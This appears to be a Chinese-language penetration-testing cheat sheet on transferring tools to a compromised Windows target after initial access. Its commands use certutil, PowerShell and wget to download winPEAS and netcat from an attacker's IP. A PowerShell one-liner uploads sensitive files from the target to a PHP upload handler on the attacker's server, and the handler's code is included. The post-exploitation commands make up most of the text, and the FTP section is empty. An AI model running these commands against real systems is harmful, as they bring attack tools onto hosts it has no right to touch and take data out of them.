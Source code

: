 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Windows文件传输 - Windows File Transfer

## 常用工具

1. certutil.exe
2. FTP
3. Powershell

## 常规方法

### 利用certutil.exe传输

{% hint style="info" %}
首选，兼容老旧的Windows系统：Windows XP / Windows Server 2003 / Windows Vista / Windows Server 2008 / Windows 7 /...

因为老旧的Windows系统没有默认安装或者安装的不是完整版的Powershell，但是certutil.exe是所有Windows系统都有的程序。
{% endhint %}

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
certutil -urlcache -f http://攻方IP:8888/winPEAS.exe winpeas.exe
```

### 利用FTP传输







### 利用Powershell传输

#### 下载

```powershell
// Target
Invoke-WebRequest -URL http://<攻方IP>/nc.exe -OutFile nc.exe
```

```bash
// Target
wget http://攻方IP/nc.exe -o nc.exe
```

#### 上传

```powershell
// Target
powershell(New-ObjectSystem.Net.WebClient).UploadFile('http://<攻方IP>/uploadwindows.php','.\<目标上的敏感文件>')
```

在攻方主机/var/www/html目录下分别创建：/uploads目录和uploadwindows.php文件

```php
// uploadwindows.php
<?php
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'],$uploadfile)
?>
```



